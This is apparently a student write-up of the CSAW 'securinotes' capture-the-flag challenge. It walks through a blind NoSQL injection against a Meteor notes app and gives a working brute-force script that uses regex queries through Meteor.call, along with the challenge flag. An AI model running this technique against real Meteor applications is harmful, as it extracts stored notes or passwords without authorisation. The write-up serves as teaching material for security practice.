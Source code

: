 ```yaml
---
title: "securinotes"
date: 2022-08-14T14:28:16-04:00
draft: false
authors: ["CDT Daniel Chung", "CDT Jalen Morgan"] 
tags: ["csaw", "web"]
---
```


A meteor vulnerability found in 2019 and using a note storage webpage as your password database...

## Description

You have access to the SecuriNotes application. You overheard your coworker Terry talking about how he uses it as a password manager. What could possibly go wrong...

Author: h34d4ch3, RangeForce

http://web.chal.csaw.io:5002


## TL;DR

The webpage is running meteor, meteor has known blind nosql injection vulnerability. Exploit using web console and get flag.

## Explanation

When messing around with the webpage, we can see that the application is using meteor to add new notes and call the note to be displayed.

```js
Meteor.call("notes.add", {}, console.log) // creates new note and returns -> jELNgdCZxJoZm6TvL
Meteor.call("notes.count", {"_id": "jELNgdCZxJoZm6TvL"}, console.log) // returns -> 1
```

Knowing this, we can write a blind nosql injection bruteforce query. 
https://medium.com/rangeforce/meteor-blind-nosql-injection-29211775cd01



testing stuff here

find the id is the main part

originally thought that finding the id of terry was what we needed
but thats not going to work because we dont know his username

```
Meteor.call('notes.count', {'body': 'flag'}, (err, res))
```

Looking into app.js, we can see this function defined:

```
Template.Layout_login.onCreated(function () {
  var self = this;
  this.notescount = new ReactiveVar(0);

  function noteCountUpdater() {
    Meteor.call('notes.count', {
      body: {
        $ne: ''
      }
    }, function (err, res) {
      //console.log(res)
      self.notescount.set(res);
    });
```


```
Meteor.call('users.count', (err, res) => {
  console.log(res);
});
```

https://book.hacktricks.xyz/pentesting-web/nosql-injection


https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/split
use an index from the string ` abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_`

```
' abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_'.split('')
Array(66) [ " ", "{", "}", "_", "0", "1", "2", "3", "4", "5", … ]
```



## Additional reading
- https://stackoverflow.com/questions/21824244/mongodb-regex-searching-issue-in-meteor
- https://www.w3schools.com/jsref/met_win_settimeout.asp
- https://www.netsparker.com/blog/web-security/what-is-nosql-injection/
- https://www.google.com/search?client=firefox-b-1-d&q=meteor+js+nosql+injection
- https://www.neuralegion.com/blog/blind-sql-injection/
- https://owasp.org/www-community/attacks/Blind_SQL_Injection
- https://book.hacktricks.xyz/pentesting-web/nosql-injection


## Final Script

```js
(function exploit(field, alphabet, data = '', index = 0){
    Meteor.call('notes.count', {[field]: {$regex: data + alphabet[index]}}, (err, res) => {
        if (res == 0){
            index++;
        } 
        else {
            data += alphabet[index];
            console.log(data, res);
            index = 0;
        }
        if (index >= alphabet.length) {
            console.log("Done", data);
            return;
        }
        setTimeout(function(){exploit(field, alphabet, data, index);});
    });
})
('body', ' abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_'.split(''), 'flag{');
```

## How does it work?

- calls the notes.count function to check if the substring we have is equal to flag. 
- we start off with the alphabet and our string as flag. 
- we check if res==0 then we increase our index in the alphabet going to the next letter. 
- if res==1 then we add the letter to our flag string and print it out. 
- the alph len check is to prevent out of bounds errors. 
- the timeout sets the loop which is a js thing

<!-- ![exploit](/img/meteorexploit.JPG) -->

## Flag

flag{4lly0Urb4s3}


